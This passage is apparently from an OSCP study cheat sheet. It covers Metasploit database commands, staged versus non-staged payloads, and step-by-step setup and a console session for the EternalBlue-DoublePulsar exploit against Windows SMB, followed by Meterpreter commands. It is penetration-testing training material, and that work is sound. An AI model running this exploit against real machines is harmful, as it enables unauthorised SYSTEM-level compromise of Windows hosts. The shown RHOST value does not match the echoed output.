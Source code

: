     -   Scan for hosts and store them in the MSF database

        `db_nmap`

    -   Search machines for specific ports in MSF database

        `services -p 443`

    -   Leverage MSF database to scan SMB ports (auto-completed rhosts)

        `services -p 443 --rhosts`

-   Staged and Non-staged

    -   Non-staged payload - is a payload that is sent in its entirety in one go

    -   Staged - sent in two parts  Not have enough buffer space  Or need to bypass antivirus

 -   MS 17-010 - EternalBlue

    -   You may find some boxes that are vulnerable to MS17-010 (AKA. EternalBlue).  Although, not offically part of the indended course, this exploit can be leveraged to gain SYSTEM level access to a Windows box.  I have never had much luck using the built in Metasploit EternalBlue module.  I found that the elevenpaths version works much more relabily. Here are the instructions to install it taken from the following YouTube video:
    https://www.youtube.com/watch?v=4OHLor9VaRI


      1. First step is to configure the Kali to work with wine 32bit

      `dpkg --add-architecture i386 && apt-get update && apt-get install wine32
      rm -r ~/.wine
      wine cmd.exe
      exit`

      2. Download the exploit repostory
      https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

      3. Move the exploit to /usr /share /metasploit-framework /modules /exploits /windows /smb

      4. Start metasploit console


I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.


      `use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.11.1.73
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run`



-   Experimenting with Meterpreter

    -   Get system information from Meterpreter Shell

        `sysinfo`

    -   Get user id from Meterpreter Shell
